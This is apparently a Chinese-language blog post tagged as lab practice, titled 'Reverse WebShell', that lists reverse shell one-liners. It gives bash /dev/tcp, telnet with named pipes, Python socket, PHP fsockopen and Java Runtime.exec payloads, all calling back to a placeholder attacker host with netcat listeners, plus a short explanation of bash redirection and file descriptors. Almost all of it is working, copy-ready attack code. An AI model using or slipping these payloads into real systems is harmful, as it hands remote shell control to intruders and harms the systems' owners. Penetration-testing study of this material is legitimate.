 ```yaml
---
layout: post
title: 反弹WebShell
subtitle: 反弹WebShell
date: 2023-08-02 20:03
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
---
```

### bash

```shell
# 攻击机
nc -lvvp port
# 目标机
bash -i >& /dev/tcp/x.x.x.x/port 0>&1
```

```shell
# 方法2
exec 0&0 2>&0

0<&196;exec 196<>/dev/tcp/x.x.x.x/4444; sh <&196 >&196 2>&196

/bin/bash  -i > /dev/tcp/x.x.x.x/8080 0<&1 2>&1

# 方法3
exec 5<>/dev/tcp/x.x.x.x/4444;cat <&5 | while read line; do $line 2>&5 >&5; done
```

* **bash -i**  打开一个交互的bash
* **>&**  将标准错误输出重定向到标准输出
* **/dev/tcp/x.x.x.x/port**  意为调用socket,建立socket连接,其中x.x.x.x为要反弹到的主机ip，port为端口
* **0>&1**  标准输入重定向到标准输出，实现你与反弹出来的shell的交互

**/dev/tcp/** 是Linux中的一个特殊设备,打开这个文件就相当于发出了一个socket调用，建立一个socket连接，读写这个文件就相当于在这个socket连接中传输数据。同理，Linux中还存在/dev/udp/。

|                |                    |
| -------------- | ------------------ |
| 标准输入 (stdin)   | 代码为 0 ，使用 < 或 <<   |
| 标准输出 (stdout)  | 代码为 1 ，使用 > 或 >>   |
| 标准错误输出(stderr) | 代码为 2 ，使用 2> 或 2>> |

### Telnet

```shell
# 攻击机打开两个终端开启两个端口，分别用来输入和输出
nc -lvvp 4444
nc -lvvp 5555
# 目标主机
telnet x.x.x.x 4444 | /bin/bash | telnet x.x.x.x 5555
```

```shell
# 方法2
rm -f /tmp/p; mknod /tmp/p p && telnet x.x.x.x 4444 0/tmp/p
```
### Python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
### PHP

```php
php -r '$sock=fsockopen("x.x.x.x",5555);exec("/bin/bash -i <&3 >&3 2>&3");'
```
### JAVA

```java
public class Revs {
    /**
    * @param args
    * @throws Exception 
    */
    public static void main(String[] args) throws Exception {
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/x.x.x.x/5555;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```